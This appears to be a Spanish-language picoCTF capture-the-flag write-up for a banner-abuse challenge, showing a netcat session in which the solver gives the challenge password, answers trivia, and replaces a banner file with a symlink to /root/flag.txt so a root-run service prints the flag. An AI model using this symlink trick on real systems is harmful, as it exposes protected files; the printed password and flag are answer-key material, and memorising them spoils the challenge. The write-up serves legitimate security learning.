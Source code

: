 Descripción
¿Puedes abusar de la pancarta?

Los detalles adicionales estarán disponibles después de lanzar su instancia de desafío.

Hints:
1.⁠ ⁠¿Conoces los enlaces simbólicos?
2.Tal vez alguna pequeña contraseña descifrada o adivinando


Solución 1

Con webshell

Sepulveda24-picoctf@webshell:~$ nc tethys.picoctf.net 56589
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEFCON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
player@challenge:~$ ls          
ls
banner  text
player@challenge:~$ rm /banner   
rm /banner
rm: cannot remove '/banner': No such file or directory
player@challenge:~$ rm /home/player/banner
rm /home/player/banner
player@challenge:~$ ln -s /root/flag.txt
ln -s /root/flag.txt
player@challenge:~$ ^C
Sepulveda24-picoctf@webshell:~$ nc tethys.picoctf.net 56589
*********************************************
***************DEFAULT BANNER****************
*Please supply banner in /home/player/banner*
*********************************************
what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEFCOD
Lol, good try, try again and good luck

What is the top cyber security conference in the world?
DEFCON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
player@challenge:~$ rm /home/player/banner
rm /home/player/banner
rm: cannot remove '/home/player/banner': No such file or directory
player@challenge:~$ ln -s /root/flag.txt /home/player/banner
ln -s /root/flag.txt /home/player/banner
player@challenge:~$ ^C
Sepulveda24-picoctf@webshell:~$ nc tethys.picoctf.net 56589





picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_a0e119d4}

Notas adicionales

--------------------


Referencias

https://webshell.picoctf.org
https://chatgpt.com/c/67fee418-a5e4-8002-adc5-df9f4b6b9530